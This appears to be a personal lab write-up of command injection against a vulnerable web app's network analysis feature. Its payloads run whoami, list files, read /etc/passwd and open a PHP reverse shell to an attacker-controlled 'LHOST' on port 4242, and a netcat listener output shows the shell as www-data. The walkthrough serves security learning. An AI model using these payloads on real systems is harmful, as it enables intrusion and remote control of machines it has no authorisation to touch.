 # Command Injection - Basics

- In the network analysis tab, I am proceeding to conduct command injection to assess the system's vulnerability.

![image](https://github.com/singhx-hub/WebVulnLab/assets/126919241/66d01096-35bd-492c-a5c0-5ca6bc3e7e59)

- By utilizing the command `https://<IP>; whoami;echo http/`, I successfully fetched the user information.

![image](https://github.com/singhx-hub/WebVulnLab/assets/126919241/42ce1d0d-aa3f-4cc5-a757-b87d896ae42e) ![image](https://github.com/singhx-hub/WebVulnLab/assets/126919241/64a847ce-b6ac-43b3-a6c6-3f829a8b585d)

- By passing the payload `https://<IP>; ls -lah;asd`, I managed to retrieve the files present in the system.

![image](https://github.com/singhx-hub/WebVulnLab/assets/126919241/87e86829-1b7d-4467-960c-cee1cbc12415)
![image](https://github.com/singhx-hub/WebVulnLab/assets/126919241/3a1906df-0d44-47e1-a778-986d6799425b)

- By utilizing the command `https://<IP>; cat /etc/passwd;asd` I successfully retrieved the user information.

![image](https://github.com/singhx-hub/WebVulnLab/assets/126919241/432522ce-e64a-4196-b2ac-f3e809a1c4a4)

- By employing the PHP reverse shell `https://<Target IP>; php -r '$sock=fsockopen("LHOST",4242);exec("/bin/sh -i <&3 >&3 2>&3");';asd`, I was able to prompt a reverse shell.

![image](https://github.com/singhx-hub/WebVulnLab/assets/126919241/87bcc2a3-2f00-4db3-9b73-af70191f6c2d)

#### Shell:

```bash
└─$ rlwrap nc -nvlp 4242
listening on [any] 4242 ...
connect to [xxx.xxx.xxx.186] from (UNKNOWN) [xxx.xx.0.4] 59348
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
```
